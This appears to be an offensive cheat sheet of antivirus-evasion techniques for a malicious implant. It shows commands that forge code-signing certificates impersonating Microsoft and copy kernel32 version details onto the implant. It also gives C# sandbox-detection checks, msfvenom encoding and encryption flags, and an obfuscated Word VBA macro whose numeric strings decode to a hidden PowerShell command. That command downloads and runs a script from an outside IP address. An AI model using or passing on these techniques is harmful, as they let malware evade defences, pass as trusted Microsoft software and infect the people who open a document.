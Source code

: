 # Executable with high entropy
High entropy == encrypted data == detection (kinda)

Solutions:
- putting encrypted data on the stack (.text section)
- concatenate data to a image in the .rsrc section
- concatenate entire executable with another benign executable
- convert encrypted data to hexstring/guid like string

# Missing binary signature
Self signed CA:
```shell
makecert -r -pe -n "CN = Microsoft Root Certificate Authority 2010,O = Microsoft Corporation,L = Redmond,S = Washington,C = US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

Self signed cert:
```shell
makecert -pe -n "CN=Microsoft Windows Production PCA 2011,O = Microsoft Corporation,L = Redmond,S = Washington,C = US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

Convert to PFX:
```shell
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

Sign binary:
```shell
signtool sign /v /f SPC.pfx EXECUTABLE
```

# Missing executable details/description
ResHacker.exe > File > Open... > EXECUTABLE > Action > Add from a Resource file... > c:/windows/system32/kernel32.dll

or using batch file to compile it automatically:
```shell
@ECHO OFF

rc ver.rc
cvtres /MACHINE:x64 /OUT:ver.o ver.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 ver.o

del *.obj *.o *.res
```

Using this resource file:
```
1 VERSIONINFO
FILEVERSION 10,0,17763,475
PRODUCTVERSION 10,0,17763,475
FILEOS 0x40004
FILETYPE 0x2
{
	BLOCK "StringFileInfo"
	{
		BLOCK "040904B0"
		{
			VALUE "CompanyName", "Microsoft Corporation"
			VALUE "FileDescription", "Windows NT BASE API Client DLL"
			VALUE "FileVersion", "10.0.17763.475 (WinBuild.160101.0800)"
			VALUE "InternalName", "kernel32"
			VALUE "LegalCopyright", "\xA9 Macrohard Corporation. All rights reserved."
			VALUE "OriginalFilename", "kernel32"
			VALUE "ProductName", "Microsoft\xAE Windows\xAE Operating System"
			VALUE "ProductVersion", "10.0.17763.475"
		}
	}
	
	BLOCK "VarFileInfo"
	{
		VALUE "Translation", 0x0409 0x04B0  
	}
}
```

# Sleep Shanenigans
```csharp
[DllImport("kernel32.dll")] static extern void Sleep(uint dwMilliseconds);

DateTime t1 = DateTime.Now;
Sleep(4000);
double delta = DateTime.Now.Subtract(t1).TotalSeconds;
if (delta < 3) return;
```

# Non-Emulated APIs
```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect, UInt32 nndPreferred);
[DllImport("kernel32.dll", SetLastError = true)] public static extern IntPtr GetCurrentProcess();

IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if (mem == IntPtr.Zero) return;
```

# VBA Macro Evasion
```vb
Function Pears(Beets)
	Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
	Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
	Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
	Do
		Oatmilk = Oatmilk + Pears(Strawberries(Milk))
		Milk = Almonds(Milk)
	Loop While Len(Milk) > 0
	Nuts = Oatmilk
End Function

Function MyMacro()  
	Dim Apples As String
	Dim Water As String
	
	If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
		Exit Function
	End If
	
	Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
	Water = Nuts(Apples)
	GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function
```

# Metasploit Encoders
```bash
msfvenom --list encoders
-e x86/shikata_na_gai
-e x64/zutto_dekiru
```

# Mestaploit Custom Template Executable
```bash
-x notepad.exe
```

# Metasploit Encryption
```bash
msfvenom --list encryption
--encrypt aes --encrypt-key 8990
```
